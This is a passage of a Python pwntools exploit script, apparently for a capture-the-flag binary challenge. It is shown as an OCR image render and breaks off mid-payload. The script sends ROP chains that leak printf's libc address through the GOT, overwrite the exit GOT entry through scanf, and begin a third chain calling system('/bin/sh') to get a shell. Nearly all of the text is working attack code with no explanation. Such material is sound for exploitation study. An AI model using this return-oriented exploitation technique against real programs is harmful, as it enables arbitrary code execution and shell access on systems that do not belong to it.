 ```
        if i == 19:
            io.sendlineafter(b"A[%d]: " % i, b"%d" % 19)
            continue
        if i >= 20:
            io.sendlineafter(b"A[%d]: " % i, b"%d" % payload[i - 20])
            continue
        io.sendlineafter(b"A[%d]: " % i, b"%d" % ord("a"))


# print got.printf, get real address for printf, use this to get libc_base
log_print("Sending first paylaod, get real address for printf, use this to get libc_base")
payload1 = [writable_addr,
            ret_addr,
            pop_rdi_ret_addr,
            got_printf_addr,
            plt_printf_addr,
            ret_addr,
            main_addr]
io.sendlineafter(b"n: ", b"%d" % main_list_length(payload1))
main_sender(io, payload1)

# print(io.recv())
io.recvuntil(b"\n")
val = io.recvuntil(b"n:")[:-2:]
io.recv()

libc_printf_addr = int.from_bytes(val, "little")
log_print("printf libc addr", hex(libc_printf_addr))
libc_base_addr = libc_printf_addr - libc_printf_offset
log_print("libc base addr", hex(libc_base_addr))
libc_bin_sh_addr = libc_base_addr + libc_bin_sh_offset
log_print("libc bin/sh addr", hex(libc_bin_sh_addr))
libc_system_addr = libc_base_addr + libc_system_offset
log_print("libc system addr", hex(libc_system_addr))

# Sending first paylaod, change address in got.exit to printf real addressf so exit(0) not quit the program
log_print("run main again\nSending second paylaod, change address in got.exit to got.printf so exit(0) not quit the program")
# Sending first paylaod, use scanf("%lld",got_exit_addr) to change got.exit to printf real address
payload2 = [writable_addr,
            ret_addr,
            pop_rdi_ret_addr,
            str_lld_addr,
            pop_rsi_r15_ret_addr,
            got_exit_addr,
            0,
            ret_addr,
            plt_scanf_addr,
            ret_addr,
            main_addr]

io.sendline(b"%d" % main_list_length(payload2))
main_sender(io, payload2)
io.recv()
# Sending printf real address
io.sendline(b"%d" % libc_printf_addr)

log_print("run main again\nSending third paylaod, call system('/bin/sh')")
payload3 = [writable_addr,
            ret_addr,
            pop_rdi_ret_addr,
            libc_bin_sh_addr,
```
